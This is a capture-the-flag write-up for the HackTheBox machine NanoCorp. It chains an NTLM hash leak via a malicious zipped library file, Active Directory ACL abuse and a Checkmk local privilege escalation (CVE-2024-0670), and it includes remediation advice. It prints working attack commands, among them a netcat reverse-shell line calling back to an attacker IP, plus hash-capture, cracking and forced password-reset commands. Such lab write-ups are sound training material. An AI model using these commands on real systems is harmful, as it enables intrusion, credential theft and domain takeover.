# Summary

_NanoCorp_ is a Hard rated AD machine from _HackTheBox_. In order to fully compromise the target host, one must exploit/abuse multiple vulnerabilities and misconfigurations:

- **CVE-2025-24071 NTLM Leak** - the vulnerability allowed me to obtain valid domain credentials by uploading a zipped file containing a basic payload. Remediation should focus first and foremost on installing the Microsoft patch (March 2025), and could also include a more sophisticated file upload filter - preventing the upload of potentially malicious files by using content disarm and reconstruction, etc. Also, where possible, enforce SMB signing or phase out NTLM authentication in favor of Kerberos.
- **Potentially Excessive ACLs** - `web_svc` had the _AddSelf_ ACL on a group that in turn had _ForceChangePassword_ on `monitoring_svc`. Chaining these two ACLs together allowed me to compromise `monitoring_svc` and obtain an initial foothold on the target host. To remediate, audit and review ACLs periodically, adjust or remove ACLs based on actual requirements.
- **_Checkmk_'s CVE-2024-0670** - _Checkmk_'s vulnerability allowed me to perform privilege escalation and compromise the domain. To remediate, update _Checkmk_ to versions 2.2.0p23, 2.1.0p40 or its latest release (2.5.0p14).

---
# Full TCP Range Scan

Scanning the target host with the following command:

```bash
sudo nmap -v -p- --max-rate 1500 -T4 -sS -n -Pn -oN Scans/NanoCorp_TCP_discovery 10.129.243.199
ports=$(grep open Scans/NanoCorp_TCP_discovery | cut -d'/' -f1 | paste -sd,)
sudo nmap -p$ports -v -sC -sV -sT -T4 -oN Scans/NanoCorp_TCP_service DC01

Nmap scan report for DC01 (10.129.243.199)
Host is up (0.021s latency).
rDNS record for 10.129.243.199: DC01.nanocorp.htb

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://nanocorp.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos ([...])
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/wsmans?
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
[...]
9389/tcp  open  mc-nmf            .NET Message Framing
49664/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
58610/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
58615/tcp open  msrpc             Microsoft Windows RPC
58638/tcp open  msrpc             Microsoft Windows RPC
Service Info: Hosts: nanocorp.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: [...]
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m58s
```

## Hosts File

During the scan, I attempted to authenticate without providing any credentials with _netexec_'s `--generate-hosts-file`, which generated a text file containing the appropriate entry for my local hosts file. The hostname is already used in the service scan above.



From the output file, I copied the entry to my local hosts file:



## Notes on Scan Results

- _DC01_ is an AD domain controller and as such has typical accessible services such as DNS, Kerberos, LDAP/S, SMB, RPC - all accessible over their default ports.
- _Apache/2.4.58_ HTTP server is accessible over default port 80.
- WinRM is accessible over port 5986, its default port over HTTPS. 
- There is a clock skew of approximately 7 hours - the time on the attacking host will have to be synced in order to perform actions that depend on Kerberos tickets.
---
# _Apache/2.4.58_ HTTP Web Application (80/TCP)

## Tech Stack

### _cURL_ & _whatweb_

The following commands were used to retrieve HTTP headers from the target web server and fingerprint technologies, frameworks and server details:

```bash
curl -I 'http://nanocorp.htb'

whatweb 'http://nanocorp.htb'
```

The outputs from these commands do not provide any new information.

## Website Browsing

Browsing to `http://nanocorp.htb/` leads to the following web page:



Browsing through, the website is rather static. When hitting _About Us_, a small popup offers the option to _Apply Now_:


Clicking _Apply Now_ tried to redirect to `http://hire.nanocorp.htb`:


However, since the VHOST is not on my local hosts file, it does not resolve. While adding it as an entry, I look for additional VHOSTS with _ffuf_:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.nanocorp.htb" -u 'http://nanocorp.htb/'  -mc 200,300,301,302 -fw 22
```

Apart from `hire` - it did not detect any VHOSTS. Once added to my hosts file, I can browse to `hire.nanocorp.htb`:



As seen above, it is a simple application form with a designated upload box intended for archive files (Zip).

## Content Discovery

The following command was used to enumerate hidden directories and files on the target web server. Preliminary to sending the request and uploading a file, I want to recognize possible endpoints and directories that exist on the VHOST: 

```bash
feroxbuster -u 'http://hire.nanocorp.htb/' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```



As seen above, it detected _upload.php_, but not much else. 

## Compromising `web_svc`

Sending a request with a legitimate Zip file, I see it is a POST request to _upload.php_:



It seems to detect the archived file:



Once forwarded and uploaded, I am redirected to _success.php_:



The page confirms _File Uploaded and Extracted Successfully_ - the fact that it is extracted is not something I expected it to be forthcoming about:



Trying to browse to possible endpoints from which the file might be accessible - I get 403:



After a while of attempting zipped PHP shells, I remembered that the last two years have been prolific in NTLM hash leak CVEs. One such vulnerability is [CVE-2025-24071](https://nvd.nist.gov/vuln/detail/cve-2025-24071), in which Windows file explorer trusts and parses _.library-ms_ files and tried to resolve to the library location. I will use this [PoC](https://github.com/0x6rss/CVE-2025-24071_PoC) to create the archive file with the malicious library: 



Starting _Responder_ to intercept NTLM authentication traffic:

```bash
sudo responder -I tun0
```



As seen above _Responder_ intercepted an NTLMv2 hash belonging to `web_svc`. Attempting to crack the hash:

```bash
hashcat -m 5600 -a 0 web_svc.5600  /usr/share/wordlists/rockyou.txt
```



The hash is cracked successfully. `web_svc` is compromised but does not grant me command execution on the target host.

# AD Enumeration

## Password Policy

Using _netexec_'s `--pass-pol` option to enumerate the domain's password policy:


## Domain User Enumeration

Using _netexec_'s dedicated option, I export the domain users into a file:



Overall, only two users are non-default, the recently compromised `web_svc` and `monitoring_svc` - both seemingly service accounts. Spraying `web_svc` password against all users:



The output above eliminates the password re-use possibility but brings to light that `monitoring_svc` responds with _STATUS_ACCOUNT_RESTRICTION_ - it might be a member of the _Protected Users_ group, as such it cannot authenticate over NTLM. 
## Credentialed LDAP Enumeration

Having valid domain credentials allows me to enumerate the AD environment using _ldapdomaindump_ and _bloodyAD_'s _BloodHound_ collector. The output from these tools can help map relationships and identify attack paths visually.

### _ldapdomaindump_

Using `user`'s valid credentials to execute _ldapdomaindump_:

```bash
ldapdomaindump -u 'DC01.nanocorp.htb\web_svc' -p '[...]' ldap://10.129.243.199 --no-json --no-grep 
```

Reviewing the _domain_users.html_ output file, I can confirm that `monitoring_svc` is indeed a member of the _Protected Users_ group. Also, it is a member of the _Remote Management Users_ - as such, it can establish a session over WinRM:



As seen above, `web_svc` is not a member of any group.
### _BloodHound_

Using `web_svc`'s valid credentials to execute _bloodyAD_'s _BloodHound_ collector:

```bash
bloodyad --host 'DC01' -d 'nanocorp.htb' -u 'web_svc' -p '[...]' get bloodhound
```

Loading the newly-created _.zip_ file into the _BloodHound_ GUI, I mark `web_svc` as owned. I view its _Outbound Object Control_ to find out that the user can add itself to the _IT_Support_ group, through the _AddSelf_ ACL:


In turn, members of _IT_Support_ have the _ForceChangePassword_ ACL on `monitoring_svc` - allowing me to change the latter's password without knowledge of its present one:


# Foothold
## Compromising `monitoring_svc`

### Aligning for Kerberos Authentication

The following segment is best performed in quick succession, as HTB's cleanup script is fairly frequent.

First, sync local host time to DC time, as I know I will require Kerberos authentication down the road:

```bash
# Check time difference
sudo ntpdate -q DC01

# Sync time
sudo ntpdate DC01
```

To create a compatible Kerberos configuration file, I will use _netexec_'s `--generate-krb5-file`:



It is possible to replace _/etc/krb5.conf_ with the generated file or use `export KRB5_CONFIG=` to point to it.
### ACL Abuse

Then, add `web_svc` to the _IT_Support_ group:

```bash
bloodyad --host 'DC01' -d 'nanocorp.htb' -u 'web_svc' -p '[...]' add groupmember 'IT_Support' 'web_svc'
```



As a member of _IT_Support_, `web_svc` can now alter `monitoring_svc`'s password:

```bash
bloodyad --host 'DC01' -d 'nanocorp.htb' -u 'web_svc' -p '' set password 'monitoring_svc' 'LiarPants1!'
```



Knowing that `monitoring_svc` is a member of the _Protected Users_ group, I am aware that NTLM authentication will fail and therefore I issue a TGT for the user:

```bash
impacket-getTGT 'nanocorp.htb/web_svc':'[...]' -dc-ip 10.129.243.199
```



Having a valid TGT, I point to it as below:

```bash
export KRB5CCNAME=web_svc.ccache
```

Now, I will attempt to use _evil-winrm-py_ to start a session over WinRM. As previously discussed, the service is accessible over port 5986 and not the commonly met 5985, which means `--ssl` will have to be specified. Naturally, having a TGT, I will specify `-k` for Kerberos authentication:



# Privilege Escalation

## Discovering _checkmk_

Reviewing the filesystem, I find a non-default directory on _C:\Program Files (x86)_:



_Checkmk_, according to its [Wikipedia](https://en.wikipedia.org/wiki/Checkmk) page, is an open source IT infrastructure monitoring software. Reviewing _\programdata_, I find a file that seemingly discloses its version information:



## Exploiting CVE-2024-0670

Searching online for the service name and version plus _LPE_, I discover that the service should be vulnerable to [CVE-2024-0670](https://nvd.nist.gov/vuln/detail/cve-2024-0670). In short, based on the [disclosure](https://seclists.org/fulldisclosure/2024/Mar/29) - the software creates temporary files inside _\Windows\Temp_, then executes them with `SYSTEM` privileges, if malicious files are placed within the directory - they will be executed and grant elevated privileges. 

The [exploit](https://github.com/tralsesec/CVE-2024-0670) I have used is a simple _PowerShell_ script:

The configuration part of the exploit is simple, choose the basic parameters like LHOST, LPORT and the location of _nc64.exe_. By default, it assumed that _checkmk_'s PID will fall within the 1000 to 15000 range:



 It produces a cmd file that contains a simple _netcat_ payload, that will connect back to my local host:

```powershell
@echo off
C:\Windows\Tasks\nc64.exe -e cmd.exe 10.10.10.10 8844
```

It basically creates a loop of file creation, where the file name is `cmk_all_RANGE_0.cmd` (`RANGE` is PID range), saves them into the vulnerable location (_\Windows\Temp_). The files are created with read-only permissions, so _checkmk_ cannot replace them - but it executes them anyway. 

The trigger for _checkmk_ to execute these files from _\Windows\Temp_ is the following repair/reinstall payload:

```powershell
Start-Process "msiexec.exe" -ArgumentList "/fa `"$msi`" /qn" -Wait
```

Once the _PowerShell_ script is adjusted to fit my parameters and transferred to the target host alongside _nc64_ binary, I can execute it:

```powershell
powershell.exe -NoProfile -ExecutionPolicy Bypass -File .\exp.ps1
```



However, it did not trigger any callback to my _netcat_ listener. This might be due to file creation privileges on _\Windows\Temp_:



I will attempt to obtain a session as `web_svc`, using _RunasCs_, specifying its credentials, my LHOST and LPORT:



As seen above, I now have command execution as `web_svc`.

Trying to pinpoint the reason I failed exploiting the vulnerability as `monitoring_svc`, I review the ACL on _\Windows\Temp_:



As I mentioned before, it indeed failed since `monitoring_svc` could not write files to _\Windows\Temp_. Knowing that `web_svc` does have these permissions, I repeat the procedure, transferring the files once more and executing the script:



This time I get a callback and can confirm command execution as `NT AUTHORITY\SYSTEM`, confirming domain compromise:




